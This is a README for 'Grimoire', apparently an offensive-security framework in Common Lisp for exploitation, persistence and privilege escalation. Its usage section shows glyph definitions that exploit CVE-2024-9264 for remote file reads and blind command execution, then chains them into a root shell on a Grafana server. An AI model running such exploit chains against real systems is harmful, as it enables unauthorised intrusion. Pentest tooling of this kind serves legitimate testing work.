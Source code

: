 # Grimoire

<p align="center">
  <img src="https://github.com/user-attachments/assets/127f9116-e1d9-4ccc-9c22-ee17c3afda75"/>
</p>

<p align="center">
  A collection of utilities designed to facilitate reconnaissance, exploitation, persistence, and privilege escalation (only for educational purposes).
</p>

## Installation

To use Grimoire, clone the repository to your local machine.

```bash
$ git clone https://github.com/solanav/grimoire
```

After that, launch your common lisp environment (be it Lem, Emacs or any other IDE) and load Grimoire with:

```lisp
CL-USER> (ql:quickload :grimoire)
```
    
You should then enter the package and start working on the system itself, rather than using it from another package:
    
```lisp
CL-USER> (in-package :grimoire)
```
    
## Concepts

- **Glyphs**: Created using `define-glyph`. They expose some type of operation to the framework such as reading files (:READ) , blind code execution (:BLIND-EXEC), file uploads (:WRITE), etc.

- **Spells**: Created using `define-spell`. They use the glyphs available to do interesting or useful operations on the objective. For example, the spell `download-all` allows the user to download all files in a given remote path if the glyph :EXEC is available to Grimoire.
    
- **Transmutations**: Created using `define-transmutation`. They allow Grimoire to derive new glyphs from already implemented ones. For example, if you have both the :READ and :BLIND-EXEC glyphs, you will be able to derive the :EXEC through a transmutation.
    
- **Relics**: Managed through the functions starting with `relic/*`. A basic and global key-value store.

## Usage

Once you have Grimoire loaded, you can start using its utilities. First you should find an entry point to the system you are trying to exploit.

If you find a way of reading files in the remote server for example, you can create a function called `read-CVE-2024-9264` that reads files from the remote server:

```lisp
(define-glyph :read read-CVE-2024-9264 (file)
  (let* ((text (str:replace-all
                "\\x0A" (fmt "~%")
                (send-request-to-vulnerable-server
                 (fmt "SELECT content FROM read_blob(\"~a\")"
                      file))))
         (text-len (1- (length text))))
    (if (plusp text-len)
        (subseq text 0 text-len)
        "")))
```

Grimoire now unlocks a bunch of spells that you can use to progress further, for example:

```lisp
GRIMOIRE> (all-users)
("root" "daemon" "bin" "sys" "sync" "games" "man" "lp" "mail"
 "news" "uucp" "proxy" "www-data" "backup" "list" "irc" "gnats"
 "nobody" "_apt" "grafana")

GRIMOIRE> (system-info)
(("PRETTY_NAME" . "Ubuntu 22.04.4 LTS")
 ("NAME" . "Ubuntu") 
 ("VERSION_ID" . "22.04")
 ("VERSION" . "22.04.4 LTS (Jammy Jellyfish)")
 ("VERSION_CODENAME" . "jammy") 
 ("ID" . "ubuntu")
 ("ID_LIKE" . "debian")
 ("HOME_URL" . "https://www.ubuntu.com/")
 ("SUPPORT_URL" . "https://help.ubuntu.com/")
 ("BUG_REPORT_URL" . "https://bugs.launchpad.net/ubuntu/")
 ("PRIVACY_POLICY_URL" . "https://.../privacy-policy")
 ("UBUNTU_CODENAME" . "jammy"))
```
    
If you now create another glyph to do blind execution of code:

```lisp
(define-glyph :blind-exec blind-exec-CVE-2024-9264 (command)
  (send-request-to-vulnerable-server
   (fmt *exploit* command)))
```
    
So now if we check our current glyphs:
```lisp
GRIMOIRE> (glyph/list)
(:READ :BLIND-EXEC)
```
    
Now we should check if we have any interesting transmutations to expand our glyphs.

Running `transmutation/list` will yield:
```lisp
GRIMOIRE> (transmutation/list)
[+] Derivation "LET-THERE-BE-LIGHT"
    Runnable? [YES] (needs :READ, :BLIND-EXEC)
    Needed?   [YES] (provides :EXEC)

[+] Derivation "CAT"
    Runnable? [NO] (needs :EXEC)
    Needed?   [NO] (provides :READ)
```
    
So lets run the first transmutation in the REPL:
```lisp
GRIMOIRE> (transmutation/run :let-there-be-light)
[+] Added new glyph: :EXEC
```

So lets test it with the `fake-shell` spell:
```lisp
GRIMOIRE> (fake-shell)
[/usr/share/grafana]$ ls
LICENSE
bin
conf
public

[/usr/share/grafana]$ whoami
root

[/usr/share/grafana]$ exit
```

## Roadmap

In no particular order:

- [ ] Package Grimoire with Lem so it can be used as a standalone tool.
- [ ] Add an easy way to create POCs and export them so Grimoire can use them.
- [ ] Add write utilities to Grimoire.
- [x] Add execute utilities to Grimoire.
- [ ] Add a more precise way of expressing glyphs and not just `:read`, `:write` and `:execute`.
- [ ] Add a graph like representation of glyphs and how they can be chained together.
- [ ] Add a way to easily share glyphs with other users.
- [x] Add some kind of database to store relics and other stuff.
- [ ] Add logging.
- [ ] Add a way to easily create a report of the pentest.
- [ ] Add some testing of new glyphs and spells so we can even make transmutations automatic.
- [x] Add a deployable binary for persistance.
